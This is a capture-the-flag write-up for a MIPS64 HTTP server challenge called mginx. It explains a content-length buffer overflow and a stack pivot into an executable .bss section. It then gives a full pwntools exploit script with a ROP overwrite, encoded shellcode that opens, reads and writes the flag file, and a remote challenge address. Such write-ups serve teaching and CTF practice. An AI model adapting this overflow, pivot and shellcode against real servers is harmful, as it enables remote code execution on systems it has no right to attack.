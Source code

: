 ## mginx

The binary is a http server of mips64 architecture, which receives our http requests and give responses. The logic is quite simple, and the server only parses several params in the header.

### vuln

A problem exists when we concatenate the content data after the header. The code is like this:

```c
content_ptr = header_ptr + header_len;
while ((content_len != 0 && (read_sz = read(0, content_ptr, content_len), 0 < read_sz))) {
    content_ptr = content_ptr + (int)content_len;   // wrong
    content_len = content_len - read_sz;
}
```

As we can see, `content_ptr` should add `read_sz` rather than `content_len`. As a result, we can send small data to trigger large span of `content_ptr`, thus to cause buffer overflow.

### rop

The binary is dynamically linked and remote environment has ASLR opened, so we need to use some gadgets in the binary. 

One possible way is to leak library address and call library functions. However, it requires a long and subtle chain, and the useful gadgets in the binary is few. I didn't choose this way.

Instead, I managed to jump back and trigger stack pivot. Because of the overflow, we can easily control values of `gp`, `ra` and `s8/fp`. I change `fp` info some address on .bss section, and `ra` back to here:

```assembly
.text:00000001200018C4 loc_1200018C4:                           # CODE XREF: main+510↓j
.text:00000001200018C4                                          # main+51C↓j ...
.text:00000001200018C4                 daddiu  $v0, $fp, 0x88
.text:00000001200018C8                 li      $a2, 0x1000      # nbytes
.text:00000001200018CC                 move    $a1, $v0         # buf
.text:00000001200018D0                 move    $a0, $zero       # fd
.text:00000001200018D4                 dla     $v0, read
.text:00000001200018D8                 move    $t9, $v0
.text:00000001200018DC                 jalr    $t9 ; read
.text:00000001200018E0                 nop
```

Thus, we can read our new http header / content in the .bss section, which is RWX. We can read our shellcode on it, and do overflow again to control pc there. 

### exploit

```python
from pwn import *
context.arch = 'mips64'
context.endian = 'big'
context.log_level = "debug"
context.terminal = ['tmux', 'split', '-h']

if not args['REMOTE']:
    r = process(["qemu-mips64", "./mginx"])
    #r = process(["qemu-mips64", "-g", "1234", "./mginx"])
else:
    r = remote("124.156.129.96", 8888)

read_gadget = 0x1200018C4
bss         = 0x120012800

def senddata(data):
    sleep(0.1)
    r.send(data)

###############################
h = "GET / HTTP/1.1\r\n"
h += "Connection: not-keep-alive\r\n"
h += "Content-Length: 512"
h = h.ljust(0x250-4, 'a')
h += "\r\n\r\n"

sh = 'b'*(0x1e0-1)
sh += p64(0x000000012001a250)       # gp 
sh += p64(bss)                      # s8 / fp
sh += p64(read_gadget)              # ra
sh = sh.ljust(0x200-6, 'x')

senddata(h)
for i in range(6):
    senddata('a')
senddata(sh)

###############################

h = "GET / HTTP/1.1\r\n"
h += "Connection: not-keep-alive\r\n"
h += "Content-Length: 512"
h = h.ljust(0x250-4, 'a')
h += "\r\n\r\n"

data = 'x'*7
#data += "<\x0c/b5\x8cin\xaf\xac\xff\xf4<\r/s5\xadh\x00\xaf\xad\xff\xf8\xaf\xa0\xff\xfcg\xa4\xff\xf4(\x05\xff\xff(\x06\xff\xff$\x02\x13\xc1\x01\x01\x01\x0c))"
data += "<\r/f5\xadla\x00\rl85\xadg\x00\x00\rl8\xff\xad\x00\x00\x03\xa0 %\x00\xa5(&\x00\xc60&$\x02\x13\x8a\x00'u\x0c\x00@ %\x03\xa0(%$\x06\x00P$\x02\x13\x88\x00'u\x0c$\x04\x00\x01\x03\xa0(%$\x06\x00P$\x02\x13\x89\x00'u\x0c"
data = data.ljust(0x200-6-8-3, '\x00')
data += p64(0x00000001200136d0)
data = data.ljust(0x200-6, 'x')

senddata(h)
for i in range(6):
    senddata('a')
senddata(data)

r.interactive()

###############################

""" orw shellcode
dli $t1, 0x2f666c6167000000
sd $t1, ($sp)
move $a0, $sp
xor $a1, $a1, $a1
xor $a2, $a2, $a2
li $v0, 0x138a
syscall 40404
move $a0, $v0
move $a1, $sp
li $a2, 0x50
li $v0, 0x1388
syscall 40404
li $a0, 1
move $a1, $sp
li $a2, 0x50
li $v0, 0x1389
syscall 40404
"""
```
